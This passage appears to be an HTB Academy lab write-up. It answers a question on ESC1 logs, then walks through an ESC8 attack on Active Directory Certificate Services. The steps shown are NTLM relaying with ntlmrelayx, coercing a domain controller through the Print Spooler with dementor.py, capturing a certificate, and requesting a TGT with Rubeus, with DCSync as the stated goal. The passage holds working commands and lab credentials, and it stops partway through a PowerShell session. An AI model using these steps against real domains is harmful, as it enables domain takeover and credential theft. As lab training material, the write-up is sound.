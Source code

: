 **Q2** After performing the ESC1 attack, connect to PKI (172.16.18.15) as 'htb-student:HTB\_@cademy\_stdnt!' and look at the logs. On what date was the very first certificate requested and issued?

**Answer : 12-19-2022**



## Skills Assessment

### Overview

In this lab, we perform a certificate attack against Active Directory Certificate Services (ADCS) by abusing NTLM relaying techniques. This is commonly referred to as the ESC8 attack. The goal is to coerce a Domain Controller to request a certificate, then use that certificate to obtain a TGT and eventually perform DCSync.

***

### Attack Steps

#### 1. Set up NTLMRelayx

Configure NTLMRelayx to forward incoming connections to the HTTP endpoint of the Certificate Authority (CA). Request a certificate for the Domain Controller using the default template:

```bash
impacket-ntlmrelayx -t http://172.16.18.15/certsrv/default.asp \
    --template DomainController --smb2support --adcs
```

Notes:

* `--adcs` tells NTLMRelayx to parse and display received certificates.
* The server listens for incoming connections from coerced machines.

#### 2. Coerce the Domain Controller

Force a connection from the Domain Controller (DC2) to the Kali host using the Print Spooler bug:

```
python3 ./dementor.py 172.16.18.20 172.16.18.4 -u bob -d eagle.local -p Slavi123
```

* `172.16.18.20` → Target (DC2)
* `172.16.18.4` → Attacker (Kali)

> If the network address is invalid, verify IPs and connectivity.
>
> #### 3. Certificate Obtained
>
> Once DC2 connects, NTLMRelayx will relay the authentication and request a certificate:
>
> ```
> [*] GOT CERTIFICATE! ID 48
> [*] Base64 certificate of user DC2$: MIIRbQIBAzCC...
> ```
>
> Copy the Base64 certificate for later use with Rubeus.
>
>
>
> #### 4. Use Certificate to Request TGT
>
> On the Windows machine, use Rubeus to request a TGT with the obtained certificate:
>
> ```powershell
> .\Rubeus.exe asktgt /user:DC2$ /ptt /certificate:<Base64Cert>
> ```
>

[dc1]: PS C:\Users\Administrator\Documents> hostname
[dc1]: PS C:\Users\Administrator\Documents> whoami  